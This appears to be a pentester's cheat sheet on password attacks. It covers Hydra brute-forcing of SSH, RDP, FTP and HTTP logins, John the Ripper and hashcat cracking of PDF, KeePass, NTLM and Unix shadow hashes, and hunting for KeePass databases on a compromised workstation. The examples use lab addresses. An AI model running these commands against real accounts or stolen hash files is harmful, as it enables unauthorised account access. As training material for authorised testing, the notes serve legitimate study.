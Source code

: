 # Password Cracking

### Hydra

#### Simple SSH & RDP Examples

```bash
hydra -l george -P /usr/share/wordlists/rockyou.txt -s 2222 ssh://192.168.50.201
...
hydra -L /usr/share/wordlists/dirb/others/names.txt -p "SuperS3cure1337#" rdp://192.168.50.202
```

#### Cracking PDF

```bash
pdf2john Infrustructure.pdf > pdf.hash
john -wordlist=/usr/share/wordlists/rockyou.txt pdf.hash
```

#### Hydra FTP Example (with known usernames)

```bash
hydra -I -V -f -L users.txt -u -P /opt/SecLists/Passwords/xato-net-10-million-passwords.txt 192.168.179.46 ftp
```

#### HTTP Examples

As before, we'll specify -l for the user, -P for the wordlist, the target IP without any protocol, and a new http-post-form argument, which accepts three colon-delimited fields.

The first field indicates the location of the login form. In this demonstration, the login form is located on the index.php web page. The second field specifies the request body used for providing a username and password to the login form, which we retrieved with Burp. Finally we must provide the failed login identifier, also known as a condition string.

```bash
hydra -l user -P /usr/share/wordlists/rockyou.txt 192.168.50.201 http-post-form "/index.php:fm_usr=user&fm_pwd=^PASS^:Login failed. Invalid"
```

When you run into Basic Authentication, use the following script as a reference:

```bash
hydra -I -l admin -P /usr/share/wordlists/rockyou.txt -t 1 "http-get://192.168.249.201/:A=BASIC:F=401"
```

---

You can think of John the Ripper as more of a CPU intensive password cracking tool that supports GPUs, while HashCat is more of a GPU-centered cracking tool, with support for CPUs.

For most algorithms, a GPU is much faster than a CPU since modern GPUs contain thousands of cores, each of which can share part of the workload. However, some slow hashing algorithms (like bcrypt) work better on CPUs.

#### Calculating Cracking Time

The cracking time can be calculated by dividing the keyspace with the hash rate.

The keyspace consists of the character set to the power of the amount of characters or length of the original information (password). For example, if we use the lower-case Latin alphabet (26 characters), upper case alphabet (26 characters), and the numbers from 0 to 9 (10 characters), we have a character set of 62 possible variations for every character. If we are faced with a five-character password, we are facing 62 to the power of five possible passwords containing these five characters.

```bash
python3 -c "print(62**5)"
```

We'll use hashcat with -b to initiate benchmark mode. First, we'll benchmark a CPU by running it in a Kali VM without any GPUs attached. Following along on a local Kali system, the results may differ.

```bash
hashcat -b
```

For now, we are only interested in MD5, SHA1, and SHA-256. The values of the hash rates are in MH/s in which 1 MH/s equals 1,000,000 hashes per second.

Example:
```bash
Algorithm 	GPU 	CPU
MD5 	68,185.1 MH/s 	450.8 MH/s
SHA1 	21,528.2 MH/s 	298.3 MH/s
SHA256 	9,276.3 MH/s 	134.2 MH/s
```

```bash
kali@kali:~$ python3 -c "print(916132832 / 134200000)"
6.826623189269746

kali@kali:~$ python3 -c "print(916132832 / 9276300000)"
0.09876058687192092
```

---

### Mutating Passwords

Removing number sequences from a password list:

```bash
# More specifically this removes passwords that start with the letter 1, and does the modification in place, not leaving empty newlines

sed -i '/^1/d' demo.txt
```

If you want to view how the demo rules work:

```bash
kali@kali:~/passwordattacks$ hashcat -r demo.rule --stdout demo.txt
password1
iloveyou1
princess1
rockyou1
abc1231
```

This sets the crack mode to MD5, with the hash being in crackme.txt, and sets the demo rules on the rockyou.txt wordlsit, with the argument '--force' to use a CPU for the cracking.

```bash
kali@kali:~/passwordattacks$ cat crackme.txt     
f621b6c9eab51a3e2f4e167fee4c6860

kali@kali:~/passwordattacks$ cat demo3.rule   
$1 c $!
$2 c $!
$1 $2 $3 c $!

kali@kali:~/passwordattacks$ hashcat -m 0 crackme.txt /usr/share/wordlists/rockyou.txt -r demo3.rule --force
``` 

### Password Cracking Process

We can describe the process of cracking a hash with the following steps:

    1. Extract hashes
    2. Format hashes
    3. Calculate the cracking time
    4. Prepare wordlist
    5. Attack the hash

You can identify the hash type with *hash-identifier* or *hashid*, which are installed on Kali.

We must take special care in copying and pasting our hashes. An extra space or a newline could render our efforts worthless. In addition, we should be sure of the hash type we are using. For example, hashid can't automatically determine if b08ff247dc7c5658ff64c53e8b0db462 is MD2, MD4, or MD5. An incorrect choice will obviously waste time. We can avoid this situation by double-checking the results with other tools and doing additional research.

**If you manage to get access to a client's workstation, check if they are running a password manager. If they are, try to crack the master password.**

#### Recursively Search a User's Workstation for KeePass Database

```bash
Get-ChildItem -Path C:\ -Include *.kdbx -File -Recurse -ErrorAction SilentlyContinue
```

The JtR suite includes various transformation scripts like ssh2john and keepass2john, which can format a broad range of different file formats, and they are installed by default on our Kali machine. We can also use these scripts to format hashes for Hashcat.

Let's use the keepass2john script to format the database file and save the output to keepass.hash.

```bash
kali@kali:~/passwordattacks$ ll Database.kdbx
-rwxr--r-- 1 kali kali 1982 May 30 06:36 Database.kdbx


kali@kali:~/passwordattacks$ keepass2john Database.kdbx > keepass.hash   

kali@kali:~/passwordattacks$ cat keepass.hash   
Database:$keepass$*2*60*0*d74e29a727e9338717d27a7d457ba3486d20dec73a9db1a7fbc7a068c9aec6bd*04b0bfd787898d8dcd4d463ee768e55337ff001ddfac98c961219d942fb0cfba*5273cc73b9584fbd843d1ee309d2ba47*1dcad0a3e50f684510c5ab14e1eecbb63671acae14a77eff9aa319b63d71ddb9*17c3ebc9c4c3535689cb9cb501284203b7c66b0ae2fbf0c2763ee920277496c1
```

In our case, the JtR script prepended the filename Database to the hash. The script does this to act as the username for the target hash. This is helpful when cracking database hashes, since we want the output to contain the corresponding username and not only the password. Since KeePass uses a master password without any kind of username, we need to remove the "Database:" string with a text editor.


We're using the rule '/usr/share/hashcat/rules/rockyou-30000.rule' because it is very effective with the rockyou.txt wordlist, as it was made for it.

```bash
kali@kali:~/passwordattacks$ hashcat -m 13400 keepass.hash /usr/share/wordlists/rockyou.txt -r /usr/share/hashcat/rules/rockyou-30000.rule --force
hashcat (v6.2.5) starting
...
$keepass$*2*60*0*d74e29a727e9338717d27a7d457ba3486d20dec73a9db1a7fbc7a068c9aec6bd*04b0bfd787898d8dcd4d463ee768e55337ff001ddfac98c961219d942fb0cfba*5273cc73b9584fbd843d1ee309d2ba47*1dcad0a3e50f684510c5ab14e1eecbb63671acae14a77eff9aa319b63d71ddb9*17c3ebc9c4c3535689cb9cb501284203b7c66b0ae2fbf0c2763ee920277496c1:qwertyuiop123!
...
```

#### Using Rules with JTR

To be able to use the previously created rules in JtR, we need to add a name for the rules and append them to the /etc/john/john.conf configuration file. For this demonstration, we'll name the rule sshRules with a "List.Rules" rule naming syntax (as shown in Listing 34). We'll use sudo and sh -c to append the contents of our rule file into /etc/john/john.conf.

```bash
kali@kali:~/passwordattacks$ cat ssh.rule
[List.Rules:sshRules]
c $1 $3 $7 $!
c $1 $3 $7 $@
c $1 $3 $7 $#

kali@kali:~/passwordattacks$ sudo sh -c 'cat /home/kali/passwordattacks/ssh.rule >> /etc/john/john.conf'
```

Now that we've successfully added our sshRules to the JtR configuration file, we can use john to crack the passphrase in the final step of our methodology. We'll define our wordlist with --wordlist=ssh.passwords, select the previously created rule with --rules=sshRules, and provide the hash of the private key as the final argument, ssh.hash.

```bash
kali@kali:~/passwordattacks$ john --wordlist=ssh.passwords --rules=sshRules ssh.hash
```

#### NTLM Hashes

```bash
hashcat -m 1000 nelly.hash /usr/share/wordlists/rockyou.txt -r /usr/share/hashcat/rules/best64.rule --force
```

#### With Additional Field in File & Show Output

```bash
# Rebecca:bf55e15b119860a6e6b5a164377da719
hashcat -m 0 --user sql.output /usr/share/wordlists/rockyou.txt --force
hashcat -m 0 --user sql.output --show
```

#### Automating Login User & Pass HTTP

Pay attention to whether you put http-post-form or https-post-form. Creds.txt is user:pass format.

```bash
hydra -C creds.txt streamio.htb https-post-form "/login.php:username=^USER^&password=^PASS^:F=Login failed"
```

#### John the Ripper shadow

```bash
$ unshadow passwd shadow > unshadow.db
$ john unshadow.db

# Hashcat SHA512 $6$ shadow file
hashcat -m 1800 -a 0 hash.txt rockyou.txt --username

#Hashcat MD5 $1$ shadow file
hashcat -m 500 -a 0 hash.txt rockyou.txt --username
```